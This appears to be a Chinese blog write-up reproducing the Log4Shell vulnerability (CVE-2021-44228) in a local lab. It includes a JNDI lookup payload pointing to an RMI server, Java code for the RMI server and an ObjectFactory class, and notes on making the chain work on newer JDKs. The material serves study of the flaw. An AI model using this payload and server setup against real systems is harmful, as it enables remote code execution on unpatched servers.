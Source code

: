 ```yaml
---
title: 【漏洞复现】Log4j CVE-2021-44228
date: 2024-01-23 22:43:18
tags: 
  - Java
  - 安全
---
```


# Log4j 依赖版本

```yml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
```

> 也贴一下log4j的配置文件，和漏洞没有联系

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="INFO">
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
        </Console>
    </Appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>
</Configuration>
```

# 漏洞复现

**Log4jTest.java**

```java
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2Test {

  private static final Logger LOGGER = LogManager.getLogger();

  public static void main(String[] args) {
    String foo = "bar";
    String os = "${java:os}";
    LOGGER.info("foo, {}!", foo);
    LOGGER.info("os, {}!", os);
  }
}
```

上述代码执行结果:

```markdown
23:18:16.262 [main] INFO  org.example.Log4j2Test - foo, bar!
23:18:16.264 [main] INFO  org.example.Log4j2Test - os, Mac OS X 13.3.1 unknown, architecture: x86_64-64!
```

可以看到 `LOGGER.info("os, {}!", os);` 这段代码并不是将字符串打印出来，而是将其认为是代码再执行了一次，获取了系统信息。这是Log4j为了开发者使用方便而提供的一个[功能](https://logging.apache.org/log4j/2.x/manual/lookups.html)。而这也带来了安全问题。

攻击者可以构造恶意的RMI请求，向服务器发送请求并执行恶意代码。该攻击属于JNDI攻击，通过RMI请求将恶意代码注入到服务器中。

> RMI (Remote Method Invocation) 是 Java 中用于实现远程过程调用的机制。它允许在不同的 Java 虚拟机（JVM）之间进行通信，并调用远程对象上的方法，就像调用本地对象的方法一样。

**Log4jTest.java**

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2Test {

  private static final Logger LOGGER = LogManager.getLogger();

  public static void main(String[] args) {
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    String rmi = "${jndi:rmi://192.168.31.120:1099/evil}";
    LOGGER.info("rmi, {}!", rmi);
  }
}
```

RMI服务端代码 **RmiServer.java**

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiServer {
    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();

            System.out.println("Create RMI registry on port 1099");

            Reference reference = new Reference("com.example.rmi.EvilObj", "org.example.rmi.EvilObj", "");
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("evil", wrapper);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

恶意代码 **EvilObj.java**

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilObj implements ObjectFactory {

    static {
        System.out.println("evil code");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return new EvilObj();
    }
}
```

先起 RMI 服务，再起 **Log4jTest.java**，可以看到 **Log4jTest.java** 的控制台输出了 RMI 服务的恶意代码。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-23-23-44-05.png)

# 复现时遇到的问题

## JDK版本过高

JDK在各个大版本中的某些小版本后将如 `com.sun.jndi.rmi.object.trustURLCodebase` 默认值改为 `false`，导致启动报错，按照上述代码设置将该值改为 `true`即可。

## 无法获取远程对象

这时的 EvilObj.java 代码是这样的:

```java
public class EvilObj {
  static {
    System.out.println("evil code");
  }
}
```

没有实现 `ObjectFactory` 接口。

> 看别人复现时也没有实现这个接口，但是就是可以的。

表现形式如图：

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-23-23-52-04.png)

可以看出对象并没有实例化出来，静态代码块也没有执行。

或者是报错

```markdown
Error looking up JNDI resource [rmi://192.168.31.120:1099/evil]. javax.naming.NamingException [Root exception is java.lang.ClassCastException: org.example.rmi.EvilObj cannot be cast to javax.naming.spi.ObjectFactory]
```

> 在写文章之前 只有第一个问题，但是复现不了，而是出现了第二个问题。但是都是同样的解决方式。

根据JDK版本过高的导致报错可以到其中源码查看对象是如何实例化的。报错的位置是 `com.sun.jndi.rmi.registry.RegistryContext.decodeObject`。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-09-08.png)

1. 在这处报错其实就可以看到JDK版本过高，将该值默认关闭了，打开就好。
2. getObjectInstance 见名知意，就是实例化对象用的。

可以看到var3就是在RMI中的Reference对象。

```java
Reference reference = new Reference("com.example.rmi.EvilObj", "org.example.rmi.EvilObj", "");
```

再进入这个方法看看，这个方法可以简单的分为两部分。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-19-38.png)

1. 第一部分去拿设置在 `NamingManager` 中的对象实例化工厂，去实例化对象。但是没有拿到工厂对象，是一个 `null`。
2. 所以到了第二步，第二步是去 `Reference` 对象中拿取工厂对象，然后去实例化对象。而这个其实是有点眼熟的。可以看下 `Reference` 的构造方法。


![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-28-02.png)

该构造方法是需要传入对象工厂的。

再进入获取对象工厂的方法 `getObjectFactoryFromReference` 中看看实现，有这么一个 ObjectFactory 的强转操作，即没有实现这个接口就会报上面说的强转失败报错。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-38-40.png)

获取工厂成功后，就调用实现接口的 `getObjectInstance` 方法去实例化对象。

# 参考

- [Log4j Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)
- [Log4j高危漏洞！具体原因解析！全网第一！](https://www.bilibili.com/video/BV1FL411E7g3/?spm_id_from=333.337.search-card.all.click&vd_source=6f99bcf527e78fa16b53211c455ca619)